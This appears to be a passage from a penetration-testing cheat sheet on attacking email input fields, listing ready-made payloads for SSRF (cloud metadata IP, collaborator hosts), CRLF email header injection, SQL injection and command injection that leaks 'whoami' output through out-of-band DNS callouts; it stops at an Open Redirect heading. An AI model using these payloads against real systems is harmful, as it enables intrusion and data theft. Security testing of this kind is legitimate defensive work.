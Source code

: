 Server-Side Request Forgery (SSRF)
Applications may validate emails by making outbound requests (e.g., MX record checks, avatar fetching). Improper handling can lead to SSRF.

Testing Approach:
Use a service like Burp Collaborator or requestbin to monitor for outbound requests.
Submit emails that point to your controlled domain or internal IPs.
Example Payloads:

test@your-burpcollaborator.net
test@requestbin.net
test@127.0.0.1
test@localhost
test@169.254.169.254
Email Header Injection
If user input is directly inserted into email headers, attackers can inject additional headers or manipulate the email content.

Testing Approach:
Register or reset password using payloads with CRLF sequences.
Analyze the raw email headers received.
Example Payloads:

test@example.com%0d%0aBCC:attacker@example.com
test@example.com\r\nBCC:attacker@example.com
test@example.com%0aCC:attacker@example.com
test@example.com\r\nContent-Type:text/html\r\n\r\n<b>Injected</b>
SQL Injection
If the email is used in database queries without proper sanitization, SQL injection may be possible.

Testing Approach:
Submit SQLi payloads in the email field.
Monitor for errors, unexpected behavior or data leakage.
Example Payloads:

test' OR '1'='1@example.com
test" OR "1"="1@example.com
test@example.com'--
test@example.com") OR 1=1--
Command Injection
If the email is used in system commands, command injection may be possible.

Testing Approach:
Submit command injection payloads.
Monitor for command execution or errors.
Example Payloads:

test@example.com; whoami
test@example.com && id
test@example.com | uname -a
test@example.com`id`
`whoami`.yourdomain.oast.fun
$(whoami).yourdomain.oast.fun
${USER}.yourdomain.oast.fun
test@$(whoami).xyz.oast.fun
Open Redirect
If the email is used in URLs (e.g., confirmation links), test for open redirect vulnerabilities.

